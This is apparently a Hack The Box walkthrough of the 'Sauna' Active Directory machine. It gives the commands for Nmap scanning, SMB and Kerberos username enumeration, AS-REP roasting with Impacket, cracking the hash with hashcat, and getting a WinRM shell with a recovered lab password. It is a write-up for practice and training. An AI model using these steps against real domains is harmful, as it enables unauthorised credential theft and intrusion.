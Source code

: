 ```yaml
---
description: >-
  Walkthrough of the HTB machine "Sauna", perfect for testing Active Directory
  skills.
cover: >-
  https://images.unsplash.com/photo-1583416750470-965b2707b355?crop=entropy&cs=srgb&fm=jpg&ixid=M3wxOTcwMjR8MHwxfHNlYXJjaHwyfHxzYXVuYXxlbnwwfHx8fDE3MDk1OTQ5MDR8MA&ixlib=rb-4.0.3&q=85
coverY: -56.01639344262295
---
```


# 🧖‍♂️ Sauna

## Scanning

Let's start with the usual Nmap scan:

```bash
nmap -T4 -A 10.10.10.175

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-04 20:24 -03
Nmap scan report for 10.10.10.175
Host is up (0.15s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Egotistical Bank :: Home
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-03-05 06:24:28Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 7h00m01s
| smb2-time: 
|   date: 2024-03-05T06:24:38
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 67.50 seconds
```



## Enumeration

Let's try enumerating SMB first. For this. we'll use "_smbclient_" with anonymous credentials and no password:

```bash
smbclient -L \\\\10.10.10.175\\ -N
```

<figure><img src="../.gitbook/assets/image (37).png" alt=""><figcaption><p>No File Shares listed for anonymous login</p></figcaption></figure>

As we can see, there are no File Shares listed for anonymous login, so we should take another route.

On Port 80, we can see a website that displays, on the "About Us" page, the names of the people in the "Egotistical Bank" Team.



## Exploitation

We can grab these usernames and create a list with all possible usernames for everyone in the team and try to see if any of these usernames are valid. To do this, we'll use a tool called "[_Username Anarchy_](https://github.com/urbanadventurer/username-anarchy)" and create a list of usernames.

First, let's create a list with all the names we found on the website.

```bash
subl employees.txt
```

<figure><img src="../.gitbook/assets/image (38).png" alt=""><figcaption><p>Egotistical Bank Employee List</p></figcaption></figure>

Now, let's use "_Username-Anarchy_" to create a list of probable usernames in the Domain:

```bash
./username-anarchy -i <path/to/employee list> > ~/htb/sauna/usernames.txt
```

<figure><img src="../.gitbook/assets/image (39).png" alt=""><figcaption><p>Username List</p></figcaption></figure>

Once we have a username list, we need to make sure which of these usernames are valid usernames in the Domain. To validate usernames on a domain, we can use a tool called "[_Kerbrute_](https://github.com/ropnop/kerbrute)":

```bash
# After downloading one of the releases designed for your specific architecture:
./kerbrute userenum -d egotistical-bank.local --dc 10.10.10.175 ~/htb/sauna/usernames.txt  
```

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption><p>Valid username from Kerbrute</p></figcaption></figure>

Once we get a valid username, there are a few things we can try, one of them being an ASREPRoasting attack, which will [automatically find accounts that do not require pre-authentication and extract their AS-REP hashes for offline cracking](https://blog.netwrix.com/2022/11/03/cracking\_ad\_password\_with\_as\_rep\_roasting/).

To perform this attack, we'll need to use one of Impacket's tools, known as "_GetNPUSers.py"_:

```bash
GetNPUsers.py egotistical-bank.local/fsmith -format hashcat -dc-ip 10.10.10.175
```

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption><p>fsmith's AS-REP hash</p></figcaption></figure>

Now we can take this hash and try to crack it with "_hashcat_":

```bash
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
```

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption><p>fsmith's password</p></figcaption></figure>

### User Flag

Now that we have a username and a password, there are a few things we can do. Generally speaking, we don't really need to get a shell on the system to compromise the Domain Controller, although, it can sometimes be useful.&#x20;

In this case, we should get a shell to be able to grab the User's flag:

```bash
evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23
```

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption><p>User flag</p></figcaption></figure>

## Post Exploitation / Privilege Escalation

### Enumeration





